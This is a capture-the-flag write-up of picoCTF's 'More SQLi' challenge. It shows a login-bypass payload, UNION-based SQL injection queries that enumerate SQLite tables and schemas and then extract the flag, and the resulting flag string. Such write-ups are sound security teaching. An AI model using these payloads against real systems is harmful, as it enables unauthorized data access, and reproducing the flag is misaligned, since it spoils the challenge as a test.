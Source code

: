 # Challenge "More SQLi" Writeup

## Vulnerability: SQL Injection (SQLi)

### Where: Search functionality allowing injection in the `/data` endpoint

### Impact: This challenge demonstrates how an SQL injection vulnerability can be used to extract table and column information, leading to unauthorized data retrieval.

**NOTE**: The challenge involves exploiting SQL injection in a search field to extract table structures and retrieve hidden information, eventually revealing the flag.

## Steps to reproduce:

1. **Log in Using SQL Injection**:
   We bypassed the login using a basic SQL injection payload with the username `a` and password `' OR '1'='1' --`. This allowed access to the main page, which displayed office locations and a search field.

2. **Identify Table Names Using SQL Injection**:
   The challenge hinted at SQLite, so we crafted a UNION-based SQL injection to enumerate tables in the database:

   ```
   ' UNION SELECT name, NULL, NULL FROM sqlite_master WHERE type='table' --
   ```

   This query returned the following table names:

   ```
   hints
   more_table
   offices
   users
   ```

3. **Retrieve Column Information**:
   Next, we checked each table’s structure by inspecting their `CREATE TABLE` statements, starting with the `hints` and `more_table` tables:

   ```
   ' UNION SELECT sql, NULL, NULL FROM sqlite_master WHERE tbl_name='hints' AND type='table' --
   ```

   This query revealed the following structure for `hints`:

   ```
   CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
   ```

   Similarly, querying `more_table` gave:

   ```
   CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
   ```

4. **Extract the Flag**:
   The `more_table` table contained a `flag` column, which seemed likely to hold the challenge flag. We used a UNION-based injection to retrieve its content:

   ```
   ' UNION SELECT flag, NULL, NULL FROM more_table --
   ```

   The query successfully returned the flag:

   ```
   picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
   ```

## Conclusion:

By leveraging SQL injection vulnerabilities in the search feature, we enumerated the database tables and identified the `flag` column within `more_table`, allowing us to retrieve the flag and complete the challenge.
